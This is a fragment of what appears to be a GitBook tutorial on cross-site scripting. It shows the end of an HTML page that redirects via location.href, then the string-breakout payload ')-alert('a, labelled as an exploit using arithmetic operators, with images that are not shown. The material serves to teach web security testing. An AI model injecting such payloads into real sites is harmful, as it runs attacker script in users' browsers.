 ```php
                // do something
                location.href=url
            }
        </script>
    </body>
</html>
```
{% endcode %}



```
')-alert('a
```

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

Exploit using Arithmetic Operators

<figure><img src="../../../.gitbook/assets/image (12) (2).png" alt=""><figcaption></figcaption></figure>
